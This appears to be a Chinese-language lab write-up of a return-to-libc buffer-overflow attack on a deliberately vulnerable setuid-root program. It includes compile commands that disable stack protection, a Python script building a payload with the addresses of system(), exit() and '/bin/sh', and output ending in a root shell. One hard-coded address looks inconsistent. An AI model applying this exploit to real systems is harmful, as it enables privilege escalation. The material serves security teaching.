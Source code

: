 编译并运行。然后把上面的程序段加进 retlib.c 再次编译运行。

由于 prtenv 和 retlib 都是 6 个字母，所以会得到同样的结果，如下所示。

```shell
$ gcc -m32 -fno-stack-protector -z execstack -o prtenv prtenv.c
$ ./prtenv
ffffd403
$ make
gcc -m32 -DBUF_SIZE=12 -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib && sudo chmod 4755 retlib
$ ./retlib
ffffd403
Address of input[] inside main(): 0xffffcd9c
Input size: 0
Address of buffer[] inside bof(): 0xffffcd60
Frame Pointer value inside bof(): 0xffffcd78
Segmentation fault
```

## Task 3: Launching the Attack

根据前面得到的结果，将程序改为

```python
#!/usr/bin/env python3
import sys

## Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

Y = 28
system_addr = 0xf4e12420 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = Y+4
exit_addr = 0xf7e04f80 # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

X = Y+8
sh_addr = 0xffffd403 # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

## Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

其中，Y 的值为 `0xffffcd78`$$-$$`0xffffcd60`$$+4$$

运行，攻击成功

```shell
$ ./exploit.py
$ ./retlib
Address of input[] inside main():  0xffffcda0
Input size: 300
Address of buffer[] inside bof():  0xffffcd70
Frame Pointer value inside bof():  0xffffcd88
#
```
